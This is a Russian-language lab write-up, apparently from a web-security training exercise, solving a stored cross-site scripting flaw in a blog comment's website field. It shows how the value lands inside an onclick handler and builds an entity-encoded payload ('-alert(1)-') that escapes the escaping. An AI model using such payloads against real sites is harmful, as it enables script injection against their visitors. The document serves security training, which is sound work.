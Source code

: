 В этой лабораторной работе сохранена уязвимость межсайтового скриптинга в функциональности комментариев.

Чтобы выполнить эту лабораторную работу, отправьте комментарий, который вызывает `alert`функцию при щелчке по имени автора комментария.


## Дано

 - Уязвимость межсайтового скриптинга
 - Находится в функциональности комментариев.
## Задача

- Вызвать alert

# Решение

В событие onclick мы видим
```
 <a id="author" href="http://web.ru" onclick="var tracker={track(){}};tracker.track('http://web.ru');">name</a>
```

Ссылка на сайт встраивается в имя, то есть поле ввода сайта уязвимо

При тесте простой нагрузки видим что экранируются ' и <>
```
onclick="var tracker={track(){}};tracker.track('http://web.ru\'&lt;script&gt;alert()&lt;/script&gt;');">
```

Формируем нагрузку
```
http://web.ru?&apos;-alert(1)-&apos;
```
